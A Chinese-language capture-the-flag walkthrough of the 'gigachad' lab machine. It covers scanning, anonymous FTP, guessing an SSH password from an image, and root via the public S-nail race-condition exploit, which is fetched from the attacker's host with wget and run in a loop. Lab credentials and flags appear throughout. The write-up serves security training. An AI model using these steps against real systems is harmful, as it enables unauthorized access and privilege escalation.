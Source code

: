 |   |   |   |
|---|---|---|
|gigachad|easy|ftp利用、google反图搜索、 suid提权、s-nail 提权|

# 主机发现
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo netdiscover -i eth0 -r 192.168.44.138/24
```

# 服务探测
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.138 

|_/kingchad.html

```
开放了21，22，80
访问http://192.168.44.138//kingchad.html是一张带字的图，翻译
```c
HELL0? IS IT MI5 OR MI6?
他是谁？是军情五处还是军情六处？

WHATEVER, SOMEONE IS TRYINGTO HACK US
不管怎么说，有人想黑我们

```

# 目录扫描
```css
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ gobuster dir -u http://192.168.44.138/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,png -e

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ffuf -u http://192.168.44.138/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -mc 200

```
很奇怪，扫描到什么就会出现什么，访问都是同一堆字符

访问首页，右键检查源码，解码后没啥用
```c
A7F9B77C16A3AA80DAA4E378659226F628326A95
D82D10564866FD9B201941BCC6C94022196F8EE8 
[md5在线解密破解,md5解密加密](https://www.cmd5.com/)
fuck you
VIRGIN
```
通过匿名访问获取ftp 权限，里面有一个压缩包
密码：anonymous
get出来，解压出来，得到用户名chad
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ftp 192.168.44.138 //anonymous

get chadino
unzip chadino
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ cat chadinfo 
why yes,
#######################
username is chad
???????????????????????
password?
!!!!!!!!!!!!!!!!!!!!!!!
go to /drippinchad.png

```
访问http://192.168.44.138/drippinchad.png下载图片
```c
WHY YES, THIS IS MY EAVORITE PLACE TO RELAX

HOW AOULD YOU TELL?
翻译
为什么是的，这是我最喜欢放松的地方

你怎么知道？
```
猜测应该是找这个地方
google搜图，谷歌上找到了这个地方叫maidens tower(处女塔)尝试使用这个地方名作为密码登录ssh 居然真成功了。
密码：maidenstower
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ssh chad@192.168.44.138 //maidenstower
chad@gigachad:~$ ls
ftp  user.txt
chad@gigachad:~$ cat user.txt
0FAD8F4B099A26E004376EAB42B6A56A
```

# 提权
[suid提权全解（超细）-CSDN博客](https://blog.csdn.net/qq_51524329/article/details/121865922)
[浅谈linux suid提权 - 先知社区](https://xz.aliyun.com/t/12535?time__1311=mqmhD50KBKDK50Hq4%2BOrxuDAhIYwpPjex)

```c
find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null
```

这有一个 s-nail 文件，查看漏洞库发现低于 14.8.16 的版本存在漏洞。s-nail是右键管理命令
```c
chad@gigachad:~$ find / -perm -u=s -type f -exec ls -al {} \; 2>/dev/null
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10104 Jan  1  2016 /usr/lib/s-nail/s-nail-privsep
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
chad@gigachad:~$ s-nail -V
v14.8.6

```

```c
┌──(kali㉿kali)-[~]
└─$ searchsploit s-nail                     
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
S-nail < 14.8.16 - Local Privilege Escalat | multiple/local/47172.sh
------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ searchsploit -m multiple/local/47172.sh
  Exploit: S-nail < 14.8.16 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/47172
     Path: /usr/share/exploitdb/exploits/multiple/local/47172.sh
    Codes: CVE-2017-5899
 Verified: False
File Type: POSIX shell script, ASCII text executable
cp: overwrite '/home/kali/'$'\346\241\214\351\235\242''/OSCP/47172.sh'? 
Copied to: /home/kali/桌面/OSCP/47172.sh

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ php -S 0.0.0.0:1234
[Thu Apr 18 13:27:20 2024] PHP 8.2.12 Development Server (http://0.0.0.0:1234) started
[Thu Apr 18 13:27:55 2024] 192.168.44.138:40538 Accepted
[Thu Apr 18 13:27:55 2024] 192.168.44.138:40538 [200]: GET /47172.sh
[Thu Apr 18 13:27:55 2024] 192.168.44.138:40538 Closing

```
由于此漏洞利用在竞争条件下起作用,这里执行一次不能直接提权，可以使用加个循环去执行。

```css
chad@gigachad:~$ wget http://192.168.44.128:1234/47172.sh
chmod +x 47172.sh
while true; do ./47172.sh ;done


# cat /root/root.txt
832B123648707C6CD022DD9009AEF2FD
```